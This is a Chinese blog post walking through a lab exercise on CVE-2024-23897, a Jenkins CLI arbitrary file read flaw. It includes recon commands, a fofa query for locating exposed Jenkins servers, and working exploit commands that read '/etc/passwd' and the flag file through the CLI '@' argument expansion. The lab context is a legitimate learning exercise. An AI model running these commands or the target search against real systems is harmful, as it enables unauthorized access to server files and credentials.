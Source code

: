 layout: post
title: "CVE-2024-23897任意文件读取漏洞"
date:   2024-10-11
tags: [靶场]
comments: true
author: VR2050
toc: true

没事儿玩了玩i春秋的免费靶场,i春秋的会员有点贵,所以,就看了看免费的头一个看到的就是CVE-2024-23897

## 靶场介绍

jenkins 2.441及更早版本，以及LTS 2.426.2及更早版本没有禁用其CLI命令解析器的一个功能，该功能会将参数中'@'字符后跟的文件路径替换为该文件的内容，允许未经身份验证的攻击者读取Jenkins控制器文件系统上的任意文件

待会儿搜一艘看看啥漏洞

## 打点

dirsearch 扫了扫:

```bash
dirsearch -u 8.147.132.32:19652
```

没啥有用的信息,扫到个robots.txt,么有啥价值的东西

![1728653021962](image/2024-10-11-CVE_2024_23897漏洞复现/1728653021962.png)

nmap扫描(开放很多端口,之后再说)

```bash
nmap ip -Pn -A 
```

## 访问网站看看


![1728653423667](image/2024-10-11-CVE_2024_23897漏洞复现/1728653423667.png)

抓包看看,之后试试爆破(弱口令试了试没用)


之后搜了搜CVE-2024-23897

[可以看看这位大佬的漏洞复现](https://blog.csdn.net/2301_80127209/article/details/139777834?fromshare=blogdetail&sharetype=blogdetail&sharerId=139777834&sharerefer=PC&sharesource=qq_72825267&sharefrom=from_link)

## 介绍

[jenkins](https://so.csdn.net/so/search?q=jenkins&spm=1001.2101.3001.7020)一个开源的、用于方便[代码管理](https://so.csdn.net/so/search?q=%E4%BB%A3%E7%A0%81%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020)、部署的基于web的平台，用于提高团队开发效率（生产力）

### 影响版本

版本<= Jenkins 2.441、版本<= LTS 2.426.2

### fofa语法

header="X-Jenkins" || banner="X-Jenkins" || header="X-Hudson" || banner="X-Hudson" || header="X-Required-Permission: hudson.model.Hudson.Read" || banner="X-Required-Permission: hudson.model.Hudson.Read" || body="Jenkins-Agent-Protocols"

## 复现

下载http://url/[jnlpJars/jenkins-cli.jar](http://xxx/jnlpJars/jenkins-cli.jar "http://xxx/jnlpJars/jenkins-cli.jar")(刚才没有扫到(bushi))

```shell
java -jar jenkins-cli.jar -s http://8.147.132.32:19652 -http help 1 "@/etc/passwd"
```

```shell
java -jar jenkins-cli.jar -s http://8.147.132.32:19652 -http help 1 "@/flag" 
```

只能看到一部分不过flag能够看到

![1728654427588](image/2024-10-11-CVE_2024_23897漏洞复现/1728654427588.png)

## 总结

我在想是不是这样做还不够,光获取flag还不够,还没有拿去到shell,还需要再努力

